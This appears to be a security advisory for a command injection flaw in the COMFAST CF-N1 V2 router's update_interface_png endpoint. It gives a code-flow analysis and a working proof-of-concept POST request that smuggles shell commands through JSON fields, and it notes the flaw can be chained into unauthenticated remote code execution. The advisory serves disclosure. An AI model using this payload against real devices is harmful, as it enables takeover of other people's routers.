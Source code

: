 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `update_interface_png`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `update_interface_png` API (`/usr/bin/webmgnt`, function `sub_41C000`). Attackers can inject arbitrary commands via the `interface` and `display_name` parameters, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Evidence](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=update_interface_png`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability resides in the `sub_41C000` function responsible for handling the `update_interface_png` configuration. Disassembly analysis reveals that user-controlled parameters (`interface` and `display_name`) are unsanitized and directly incorporated into a system command via `sprintf_0`, which is then executed using `system_0`.

Key code flow:



1.  User input is parsed via `blobmsg_parse_0`, extracting parameters including `interface` and `display_name`.

2.  These parameters are inserted into a command string using `sprintf_0` with the template `&aSSSSLdSSS` (likely a command for updating interface images, e.g., involving `ld` or file operations).

3.  The constructed command is executed via `system_0` without input validation, allowing attackers to inject arbitrary commands using delimiters like `;`, `&&`, or `#`.

This lack of sanitization enables attackers to break out of the intended command structure and execute malicious code.



![Vulnerable Code Snippet](./imgs/1.png)



![Command Injection Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Commands via `interface` and `display_name`



```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png  HTTP/1.1
Host: cflogin.cn
Content-Length: 82
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"interface":"; echo update > /www-comfast/test.txt #","display_name":"&& echo 1"}
```



*   **Notes**: The `interface` parameter uses `;` to terminate the original command and inject `echo update`, while `display_name` uses `&&` to chain an additional `echo 1` command. The `#` comments out remaining syntax to avoid errors.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify execution of the injected command.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "update", confirming successful command injection.

![PoC Execution Result](./imgs/3.png)

